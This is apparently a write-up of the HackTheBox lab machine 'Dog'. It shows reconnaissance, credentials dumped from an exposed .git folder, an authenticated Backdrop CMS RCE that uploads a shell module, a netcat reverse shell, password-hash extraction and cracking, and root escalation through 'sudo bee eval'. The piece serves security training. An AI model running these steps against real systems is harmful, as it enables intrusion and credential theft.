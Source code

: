 ```yaml
---
layout: post
title: HTB - dog
date: 2025-07-12 08:42 -0400
---
```


| {{ 'dog' | machine_img }} | Easy linux box, starts with a git repo leaked and some credentials. Then we exploit a known cve to get our first user. After that some credentials are being reused giving us the johncusack user. Then we just use some bad sudo privileges to get to root. |

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-08 18:02 -04
Nmap scan report for 10.10.11.58
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.08 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-08 18:03 -04
Warning: 10.10.11.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.58
Host is up (0.23s latency).
All 65535 scanned ports on 10.10.11.58 are in ignored states.
Not shown: 65463 open|filtered udp ports (no-response), 72 closed udp ports (port-unreach)

Nmap done: 1 IP address (1 host up) scanned in 74.38 seconds
```

## main website
.git folder found, let's dump it with `git-dumper`.

Only one commit.
![dog1](/assets/img/dog1.png)

Some database credentials hardcoded.
```php
<?php
// settings.php:15 ~ 17
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';
```

Let's look at the actual website now.

![dog2](/assets/img/dog2.png)

Uses backdrop cms.

![dog3](/assets/img/dog3.png)

The credentials don't work on the login panel.

![dog4](/assets/img/dog4.png)

Tried bruteforcing the username but the site is using some form of rate limiting.

Taking a better look at the git repo there is a staff email:
```json
// update.settings.json:12
        "tiffany@dog.htb"
```

and the password works on it.
![dog5](/assets/img/dog5.png)

version 1.27.1, lets check some cves
![dog6](/assets/img/dog6.png)

There is a authenticated [RCE](https://www.exploit-db.com/exploits/52021) on exploitdb. You can add a module and execute what you want. Seems to be an intentional feature of the cms.

We just run the poc, upload the module on the admin panel and go to `/modules/shell/shell.php`
![dog7](/assets/img/dog7.png)

Cleanup scripts seems to be pretty fast. So getting a nc shell might be the better option.
On host:
```
nc -lvnp 4444
```

On cms:
![dog9](/assets/img/dog9-1.png)

## www-data
```
Listening on 0.0.0.0 4444
Connection received on 10.10.11.58 45530
bash: cannot set terminal process group (922): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dog:/var/www/html/modules/shell$
```

Upgrade the shell:
```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
```

users with shell access:
```bash
www-data@dog:$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Let's check the mysql instance since we have the creds.
```bash
www-data@dog:$ mysql -u root -pBackDropJ2024DS2024 -h 127.0.0.1 backdrop
mysql> select name, mail, pass from users;
+-------------------+----------------------------+---------------------------------------------------------+
| name              | mail                       | pass                                                    |
+-------------------+----------------------------+---------------------------------------------------------+
|                   |                            |                                                         |
| jPAdminB          | jPAdminB@dog.htb           | $S$Eoz560v3wCBpqOpSTh6Lg.fcSfu3uaasdZkFijle7FqgHrhzwwLE |
| jobert            | jobert@dog.htb             | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 |
| dogBackDropSystem | dogBackDroopSystem@dog.htb | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD |
| john              | john@dog.htb               | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. |
| morris            | morris@dog.htb             | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS |
| axel              | axel@dog.htb               | $S$E42CHzivUL2EK3jaVMJgOVKHXWf9fsADHtHWcuI2WC5VmKOisJkf |
| rosa              | rosa@dog.htb               | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT |
| tiffany           | tiffany@dog.htb            | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v |
+-------------------+----------------------------+---------------------------------------------------------+
```

Backdrop uses the same hash format as drupal, so we do:
`john --wordlist=/home/shafou/wordlists/rockyou.txt users.txt`

Start with jobert since it is on /etc/passwd.

Doesn't crack even after a couple of hours.

The mysql password works on johncusack. And that gives the user flag.
```bash
www-data@dog:$ su - johncusack
Password:
johncusack@dog:~$ cat user.txt
583fe***************************
```

## johncusack

The priv esc is probably from this:
```bash
johncusack@dog:~$ sudo -l
[sudo] password for johncusack:
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

bee is a tool from backdrop. It has some interesting commands:
```bash
 ADVANCED
  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

It complains about no bootstrap.
```bash
johncusack@dog:/backdrop_tool/bee$ bee eval a

tput: No value for $TERM and no -T specified
tput: No value for $TERM and no -T specified
 ✘  The required bootstrap level for 'eval' is not ready.
```

Seems like it needs to be in the backdrop root.
```bash
johncusack@dog:/backdrop_tool/bee$ sudo bee install

tput: unknown terminal "unknown"tput: unknown terminal "unknown"

 ✘  The install script could not be found. Re-run the command from within a Backdrop installation, or set the global '--root' option.
```

Changing the pwd to `/var/www/html` makes it work.
```bash
johncusack@dog:/backdrop_tool/bee$ cv /var/www/html
johncusack@dog:/var/www/html$ sudo bee eval "system('whoami')"
root
johncusack@dog:/var/www/html$ sudo bee eval "system('cat /root/root.txt')"
4d349***************************
```

